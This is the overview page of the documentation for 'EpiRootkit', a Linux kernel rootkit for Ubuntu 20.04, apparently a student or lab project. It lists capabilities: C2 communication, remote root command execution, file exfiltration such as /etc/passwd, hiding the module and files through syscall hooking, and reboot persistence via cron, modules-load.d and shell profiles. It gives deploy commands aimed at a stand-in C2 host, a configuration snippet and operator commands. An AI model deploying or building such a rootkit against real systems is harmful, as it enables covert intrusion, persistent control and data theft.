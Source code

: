```yaml
---
title: "EpiRootkit Overview"
description: "Linux kernel rootkit for Ubuntu 20.04 / kernel 5.4.0"
icon: "shield"
date: "2025-05-25T16:00:00+01:00"
lastmod: "2025-05-25T16:00:00+01:00"
draft: false
toc: true
weight: 501
---
```


# EpiRootkit

Linux kernel rootkit implementation for Ubuntu 20.04 LTS (kernel 5.4.0).

## Features

- **C2 Communication**: TCP connection with domain support
- **DNS Resolution**: Kernel-space domain name resolution
- **Remote Commands**: Execute shell commands with output capture
- **File Transfer**: Upload/download files between C2 and victim
- **Authentication**: SHA-512 password verification with rate limiting
- **Stealth**: Hide module from `lsmod` and files from directory listings
- **Persistence**: Multiple mechanisms to survive reboots

## Quick Demo

```bash
# 1. Build and deploy
cd rootkit && make
sudo ./deploy_rootkit.sh address=c2.example.com port=443

# 2. Start C2 server  
cd attacking_program && pnpm start

# 3. Use rootkit
auth Client-1 password
# SUCCESS: Authentication successful

exec Client-1 whoami
# Exit code: 0
# Output: root

status Client-1
# EpiRootkit Status: Version 1.0.0, Module Hidden: YES
```

## Core Components

### Network Layer
- **Connection Management**: Persistent TCP with auto-reconnect
- **DNS Resolution**: See [DNS Resolution](./features/dns-resolution.md) for details
- **Keepalive System**: 60-second ping/pong monitoring
- **Socket Handling**: Low-level network operations

### Command System
- **Authentication**: SHA-512 password verification
- **Execution**: Shell commands with output capture
- **File Operations**: Upload/download with Base64 encoding
- **Status Reporting**: System and rootkit information
- **Persistence Control**: Install/remove boot mechanisms
- **Stealth Control**: Toggle module/file hiding

### Stealth Features
- **Module Hiding**: Remove from kernel module list
- **File Hiding**: Hide files with specific prefixes
- **Syscall Hooking**: kretprobe on `ksys_getdents64`

### Persistence Mechanisms
- **modules-load.d**: Systemd automatic loading
- **Cron Jobs**: Scheduled checking (every 5 minutes)
- **Shell Profiles**: Login-triggered loading

## Architecture

### Two-Stage Deployment
```
Deployment Script  →  EpiRootkit Module  →  Target System
(Stage 1: Loader)     (Stage 2: Runtime)    (Linux Kernel)
```

### Communication Flow
```
C2 Server  ←→  Network/DNS  ←→  EpiRootkit  ←→  Linux Kernel
(Node.js)      (TCP/UDP)       (Module)        (System Calls)
```

## Configuration

Edit `rootkit/core/config.h`:
```c
#define C2_SERVER_ADDRESS "c2.example.com"  // Domain or IP
#define C2_SERVER_PORT 4444
#define ENABLE_PERSISTENCE 1       // Auto-install persistence
#define ENABLE_MODULE_HIDING 1     // Hide by default
#define ENABLE_FILE_HIDING 1       // Hide files with prefixes
```

## Technical Stack

- **Target**: Ubuntu 20.04 LTS, kernel 5.4.0, x86_64
- **Language**: C (kernel module) + Node.js (C2 server)
- **APIs**: ftrace, kretprobe, VFS, crypto API, UDP sockets
- **Network**: TCP (C2) + UDP (DNS resolution)
- **Authentication**: SHA-512 with rate limiting (5 attempts/60s)

## Command Examples

```bash
# Client management
ls                    # List connected clients
auth Client-1 password  # Authenticate

# System reconnaissance  
exec Client-1 whoami
exec Client-1 uname -a
exec Client-1 ps aux

# File operations
upload Client-1 ./tool.sh /tmp/
download Client-1 /etc/passwd

# Stealth operations
hide_module Client-1     # Hide from lsmod
hide_files Client-1      # Enable file hiding

# Persistence
persist Client-1 install  # Install all mechanisms
```

## Documentation

- **[Deployment](./deployment.md)**: Build and load with domain support
- **[Connection](./connection-authentication.md)**: Network communication
- **[DNS Resolution](./features/dns-resolution.md)**: Domain name resolution
- **[Commands](./features/command-execution.md)**: Remote command execution
- **[File Transfer](./features/file-transfer.md)**: Upload/download files
- **[Stealth](./features/hiding.md)**: Module and file hiding
- **[Persistence](./features/persistence.md)**: Boot survival mechanisms


